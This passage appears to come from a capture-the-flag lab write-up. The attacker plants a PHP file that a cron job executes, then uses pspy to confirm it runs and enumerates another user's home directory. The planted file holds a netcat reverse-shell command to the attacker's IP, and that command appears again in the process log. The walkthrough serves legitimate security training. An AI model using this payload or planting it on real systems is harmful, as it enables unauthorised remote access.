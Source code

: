 ```
   4 drwxr-xr-x  2 www-data www-data    4096 nov 27  2018 document/
   4 -rw-r--r--  1 www-data www-data      54 oct 11 17:07 document.html ←

[...]
```

`cat /var/www/html/document.html`:
```php
<?php system("nc -e /bin/bash 192.168.56.118 4444") ?> ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`upload /home/kali/tools/pspy64 /home/hania/pspy64`:
```
/home/hania/pspy64 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 3.1/3.1 MB • 1.7 MB/s • 0:00:00
[17:37:52] uploaded 3.10MiB in 2.19 seconds ←
```

![Victim: hania](https://img.shields.io/badge/Victim-hania-64b5f6?logo=linux&logoColor=white)

`chmod u+x ./pspy64`

`./pspy64 > ./pspy64_output`

`cat ./pspy64_output`:
```
[...]

2024/10/11 17:40:01 CMD: UID=0     PID=1882   | /usr/sbin/CRON -f 
2024/10/11 17:40:01 CMD: UID=1000  PID=1884   | /usr/bin/php /var/www/html/document.html ←
2024/10/11 17:40:01 CMD: UID=1000  PID=1885   | sh -c nc -e /bin/bash 192.168.56.118 4444 ←

[...]
```

`ls -l /home`:
```
total 8
drwxr-xr-x 3 hania     hania     4096 oct 20  2022 hania
drwxr-xr-x 7 primavera primavera 4096 oct 20  2022 primavera ←
```

`ls -alps /home/primavera/`:
```
total 105088
     4 drwxr-xr-x  7 primavera primavera      4096 oct 20  2022 ./
     4 drwxr-xr-x  4 root      root           4096 oct 20  2022 ../
     0 lrwxrwxrwx  1 primavera primavera         9 oct 20  2022 .bash_history -> /dev/null
     4 -rw-r--r--  1 primavera primavera       220 oct 20  2022 .bash_logout
     4 -rw-r--r--  1 primavera primavera      3526 oct 20  2022 .bashrc
     4 drwxr-xr-x  3 primavera primavera      4096 oct 20  2022 custom/
     4 drwxr-xr-x 12 primavera primavera      4096 oct 20  2022 data/
     4 -rw-r--r--  1 primavera primavera       190 oct 20  2022 .gitconfig
105032 -rwxr-xr-x  1 primavera primavera 107546440 abr 21  2022 gitea
     4 drwxr-xr-x  3 primavera primavera      4096 oct 20  2022 .local/
     4 drwxr-xr-x  2 primavera primavera      4096 oct 20  2022 log/
     4 -rw-------  1 primavera primavera        31 oct 20  2022 note.txt
     4 -rw-r--r--  1 primavera primavera       807 oct 20  2022 .profile
     4 -rw-r--r--  1 primavera primavera        66 oct 20  2022 .selected_editor
     4 drwx------  2 primavera primavera      4096 oct 20  2022 .ssh/
     4 -rw-r--r--  1 primavera primavera       165 oct 20  2022 .wget-hsts
```
